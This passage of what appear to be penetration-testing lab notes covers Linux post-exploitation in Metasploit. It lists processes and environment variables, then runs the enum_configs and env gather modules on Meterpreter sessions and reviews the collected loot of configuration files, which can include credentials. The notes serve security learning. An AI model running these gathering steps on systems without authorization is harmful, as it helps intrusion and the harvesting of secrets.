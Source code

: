 ```bash
# List processes
ps aux

# Enumerate environment variables
env
```

![](.gitbook/assets/image-20230422123421018.png)

### Some Post Exploitation

- Enumerate apps and services **configuration files**

```bash
exit
# if the session dies, open a new one
sessions -u 1
```

```bash
search enum_configs
use post/linux/gather/enum_configs
info
# Description:
#   This module collects configuration files found on commonly installed 
#   applications and services, such as Apache, MySQL, Samba, Sendmail, 
#   etc. If a config file is found in its default path, the module will 
#   assume that is the file we want.
sessions
# Set the Meterpreter session
set SESSION 4
run

# It will not migrate if it's already a x64 process  
```

![Metasploit - post/linux/gather/enum_configs](.gitbook/assets/image-20230422123734142.png)

```bash
loot
# Check the enumerated configuration files
```

- Enumerate system **environment variables**

```bash
search env platform:linux
use post/multi/gather/env
info
# Description:
#   This module prints out the operating system environment variables
sessions
set SESSION 3
run
```
